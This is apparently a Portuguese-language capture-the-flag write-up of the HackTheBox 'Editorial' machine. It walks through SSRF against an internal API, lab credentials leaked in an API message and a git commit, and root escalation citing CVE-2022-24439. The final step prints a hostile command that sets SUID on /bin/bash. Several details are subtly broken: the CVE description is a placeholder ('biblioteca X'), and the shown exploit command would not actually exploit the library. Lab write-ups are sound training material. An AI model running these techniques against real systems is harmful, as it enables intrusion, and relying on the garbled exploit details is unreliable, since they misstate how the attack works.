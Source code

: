 ```yaml
---
layout: post  
title: "Editorial - HackThebox Season 6"  
date: 2024-10-19  
categories: [Hackthebox, CTF, SSRF]  
tags: [Hackthebox, CTF, SSRF]  
---
```


**Dificuldade**: Fácil

## Reconhecimento

Comecei com um scan básico de portas utilizando o **nmap** para identificar os serviços expostos pela máquina.

> Iniciei com um scan básico de portas utilizando o nmap:
> 
> 
> `nmap -vvv -p 10.10.11.20 -sCV -Pn -T4 --min-rate 10000 -oN nma/tcp_default`
> 

```bash
PORT   STATE SERVICE REASON  VERSION                                                                        
22/tcp open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)                   
| ssh-hostkey:                                                                                              
|   256 0d:ed:b2:9c:e2:53:fb:d4:c8:c1:19:6e:75:80:d8:64 (ECDSA)                                             
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMApl7gtas1JLYVJ1BwP3Kpc6oXk6sp2Jy
CHM37ULGN+DRZ4kw2BBqO/yozkui+j1Yma1wnYsxv0oVYhjGeJavM=                                                      
|   256 0f:b9:a7:51:0e:00:d5:7b:5b:7c:5f:bf:2b:ed:53:a0 (ED25519)                                           
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMXtxiT4ZZTGZX4222Zer7f/kAWwdCWM/rGzRrGVZhYx                          
80/tcp open  http    syn-ack nginx 1.18.0 (Ubuntu)                                                          
| http-methods:                                                                                             
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://editorial.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Enquanto isso, também realizei um fuzzing de diretórios e procurei por vhosts, mas sem sucesso.

## Enumeração

Com base nos serviços descobertos, iniciei a enumeração:

Comecei pelo servidor web e procurei por algo que não fosse estático. Encontrei um pagina de upload:

![image.png](../assets/images/2024-10-19-htb-editorial-0/image1.png)

## Ganho de Acesso Inicial

Depois de algum tempo testando, encontrei um SSRF no parâmetro **bookurl**, onde eu conseguia fazer requisições para minha máquina atacante. Além de forjar uma requisição, eu também conseguia ler a resposta, que era colocada em um arquivo.

💻 **SSRF (Server-Side Request Forgery)**

SSRF permite que um atacante faça requisições HTTP arbitrárias a partir do servidor da vítima, muitas vezes com o objetivo de acessar recursos internos da rede.

![image.png](../assets/images/2024-10-19-htb-editorial-0/image2.png)

Então, fui tentando algumas coisas e, ao tentar me conectar com portas locais da máquina, obtive sucesso. 
Comecei a enviar requisições localmente para portas mais conhecidas e acabei encontrando a porta 5000.

![image.png](../assets/images/2024-10-19-htb-editorial-0/image3.png)

Ao abrir a resposta recebida, encontrei alguns endpoints:

```json
{
  "messages": [
    {
      "promotions": {
        "description": "Retrieve a list of all the promotions in our library.",
        "endpoint": "/api/latest/metadata/messages/promos",
        "methods": "GET"
      }
    },
    {
      "coupons": {
        "description": "Retrieve the list of coupons to use in our library.",
        "endpoint": "/api/latest/metadata/messages/coupons",
        "methods": "GET"
      }
    },
    {
      "new_authors": {
        "description": "Retrieve the welcome message sended to our new authors.",
        "endpoint": "/api/latest/metadata/messages/authors",
        "methods": "GET"
      }
    },
    {
      "platform_use": {
        "description": "Retrieve examples of how to use the platform.",
        "endpoint": "/api/latest/metadata/messages/how_to_use_platform",
        "methods": "GET"
      }
    }
  ],
  "version": [
    {
      "changelog": {
        "description": "Retrieve a list of all the versions and updates of the api.",
        "endpoint": "/api/latest/metadata/changelog",
        "methods": "GET"
      }
    },
    {
      "latest": {
        "description": "Retrieve the last version of api.",
        "endpoint": "/api/latest/metadata",
        "methods": "GET"
      }
    }
  ]
}
```

Então, fiz requisições para cada um deles, até chegar no "**/api/latest/metadata/messages/authors**", onde, ao fazer uma requisição, encontrei credenciais:

**dev:dev080217_devAPI!@**

```json
{
  "template_mail_message": "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."
}
```

A primeira coisa que fiz ao pegar as credenciais foi tentar logar no SSH, e obtive sucesso.

![image.png](../assets/images/2024-10-19-htb-editorial-0/image4.png)

## Escalada de Privilégios - prod

No diretório do usuário **dev**, existe uma pasta **app**, mas ela é muito estranha, pois só existe um arquivo **.git**. Então comecei a interagir com esse **.git** e encontrei uma credencial no commit **b73481bb**. Ao dar um `git show` nele, peguei a senha de **prod**:

**prod:080217_Producti0n_2023!@**

```bash
commit b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:55:08 2023 -0500

    change(api): downgrading prod to dev
    
    * To use development environment.

diff --git a/app_api/app.py b/app_api/app.py
index 61b786f..3373b14 100644
--- a/app_api/app.py
+++ b/app_api/app.py
@@ -64,7 +64,7 @@ def index():
 @app.route(api_route + '/authors/message', methods=['GET'])
 def api_mail_new_authors():
     return jsonify({
-        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: prod\nPassword: 080217_Producti0n_2023!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
+  
```

Então usei `su` para logar como o usuário **prod** e obtive sucesso.

![image.png](../assets/images/2024-10-19-htb-editorial-0/image5.png)

## Escalada de Privilégios - root

A primeira coisa que fiz ao obter acesso ao usuário **prod** foi verificar as permissões de **sudo** com o comando:

```bash
sudo -l
```

![image.png](../assets/images/2024-10-19-htb-editorial-0/image6.png)

Ao revisar o conteúdo do script **clone_prod_change.py**, notei que ele fazia uso de uma biblioteca desconhecida. Com isso, fui em busca de vulnerabilidades associadas a essa biblioteca e descobri a [CVE-2022-24439](https://www.cve.org/CVERecord?id=CVE-2022-24439), uma vulnerabilidade de execução remota de código (RCE).

💡 CVE-2022-24439: "Essa vulnerabilidade explora uma falha na biblioteca X, permitindo que um atacante execute comandos remotamente devido a uma má validação de entradas."

Com base nessa vulnerabilidade, consegui explorá-la e ganhar controle sobre a execução do script, o que me permitiu executar comandos arbitrários.

Para explorar essa falha, utilizei o seguinte comando:

```bash
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py; /bin/bash -c "chmod +s /bin/bash"
```

Após executar esse comando, bastou rodar **bash -p** para obter privilégios elevados:

```bash
bash -p
```

Com isso, consegui acessar o usuário **root** na máquina.
